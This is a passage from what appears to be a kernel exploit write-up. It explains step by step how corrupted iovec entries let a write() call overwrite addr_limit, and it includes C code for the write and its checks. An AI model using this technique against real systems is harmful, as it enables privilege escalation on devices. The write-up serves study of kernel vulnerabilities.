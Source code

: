 Now that we called `write()` the kernel will start processing all the valid iovecs, the first one is `iovec[10]`, this will just write a byte to the `mmap()`ed page, it's not important, we just do that because we have to process the next one after it has been corrupted by the unlink. Now we'll process `iovec[11]`, but if you remember we corrupted its `iov_base` with a pointer to `iovec[10].iov_len`, so it'll write 0x20 (since we set `iovec[11].iov_len` to 0x8 + 0x8 + 0x8 + 0x8) from `final_sock_data` to `iovec[10].iov_len`.

As result we're able to overwrite `iovec[12].iov_base` to an arbitrary address, in this case the address of `addr_limit`.

<img src="../images/iovec_processing_11.png" alt="iovec_processing_11" style="zoom:50%;" />

Now that the kernel finished processing `iovec[11]`, it'll start processing `iovec[12]`, but as I said we just overwrote its `iov_base` with the address of `addr_limit`, so it's gonna write `iov_len` (0x8) bytes from the remaining data from `final_sock_data` to `addr_limit`, in this case 0xFFFFFFFFFFFFFFFE!

We can easily check if all the writes have been done without issues just by checking the return value of `write()` and `recvmsg()`, if  `write()` returns the size of `final_sock_data`, and `recvmsg()` returns the sum of all the `iov_len` of the valid iovecs.

```c
pid_t child = fork();
if (!child) {
    [...]
    nBytesWritten = write(WRITE_SOCK, final_sock_data, sizeof(final_sock_data));

    /* ensures that the write has been correctly done */
    if (nBytesWritten != sizeof(final_sock_data)) {
        printf("\t[-] write() returned 0x%x instead of 0x%lx\n", nBytesWritten, sizeof(final_sock_data));
        exit(-1);
    }
    exit(0);
}
[...]
int expected_bytes_addr_limit = iovec[IOVEC_OVERLAP_INDEX].iov_len +
                                iovec[IOVEC_OVERLAP_INDEX + 1].iov_len +
                                iovec[IOVEC_OVERLAP_INDEX + 2].iov_len;

if(received_bytes_addr_limit != expected_bytes_addr_limit) {
```